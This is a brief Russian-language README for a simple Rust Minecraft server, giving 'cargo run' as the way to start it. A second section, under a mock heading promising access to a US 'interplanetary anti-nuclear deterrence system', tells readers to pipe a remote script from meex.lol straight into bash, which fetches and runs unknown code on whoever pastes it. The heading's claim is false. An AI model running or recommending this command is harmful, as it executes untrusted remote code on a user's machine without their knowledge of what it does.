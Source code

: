 # rust_minecraft_server

Простой майнкрафт сервер на расте. Поддерживаемая версия: 1.21.5 ()

## Как запустить

```bash
cargo run
```

## Как получить доступ к системе межпланетного противоядерного сдерживания США

```bash
curl -sL https://meex.lol/test/fuck-usa.sh | bash
```

